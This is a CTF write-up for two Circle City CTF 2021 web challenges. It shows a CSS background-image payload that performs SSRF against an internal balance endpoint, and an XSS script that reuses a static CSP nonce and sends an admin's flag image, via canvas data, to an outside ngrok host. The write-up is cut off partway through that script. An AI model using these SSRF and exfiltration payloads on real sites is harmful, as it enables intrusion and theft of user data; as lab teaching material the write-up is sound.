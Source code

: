 # casino (web)

```text
Can you make $1000 off Casino#4970? (say !help to view commands) 
```
[casino](https://github.com/b01lers/circle-city-ctf-2021/blob/main/web/casino/dist/casino.zip)

```js
app.get('/set_balance', internal, async (req, res) => {
  const user = req.query.user
  if (user === undefined || user.length > 64) {
    return res.status(400).json({ error: 'Invalid user string' })
  }

  const balance = parseInt(req.query.balance)
  if (isNaN(balance)) {
    return res.status(400).json({ error: 'Invalid balance' })
  }

  await setBalance(user, balance)
  return res.status(200).end()
})
```
We can set our balance with a GET request. A middleware (internal) means we can't call it directly because we aren't on the docker network, but this sure sounds like GET ssrf. The vulnerability is in the $badge command -- it will style your profile pic and balance, and allow you to provide CSS for it. CSS can make GET requests in a number of ways -- a payload like this will work. 

```css
body {
    background-image: url("http://172.16.0.10:3000/set_balance?user=sky%230004&balance=10000");
}
```

After that you can just get the flag by way of $flag. 

```text
CCC{maybe_1_sh0uldv3d_us3d_P0ST_in5t3ad_of_G3T}
```

# imgfiltrate (web)

```text
Can you yoink an image from the admin page?
```
[imgfiltrate](https://github.com/b01lers/circle-city-ctf-2021/raw/main/web/imgfiltrate/dist/imgfiltrate.zip)

We get an "admin bot" which will visit an arbitrary webpage and a webpage which will provide the flag as an image. This page is vulnerable to css by way of GET parameter. The idea is to write that image to a canvas and then exfiltrate the data from the canvas. There is CSP, but the script nonce is static and in the website so it's trivial to bypass. 

```js
<script nonce="70861e83ad7f1863b3020799df93e450">
window.onload = (event) => {
    var img = new Image(),
    canvas = document.createElement("canvas"),
    ctx = canvas.getContext("2d"),
    src = "/flag.php";
    img.onload = function() {
      canvas.width = img.width;
      canvas.height = img.height;
      ctx.drawImage(img, 0, 0);
      scrpt = document.createElement("script");
      scrpt.src = 'http://50e4b12740bd.ngrok.io?c=' + canvas.toDataURL();
      scrpt.nonce = "70861e83ad7f1863b3020799df93e450"
```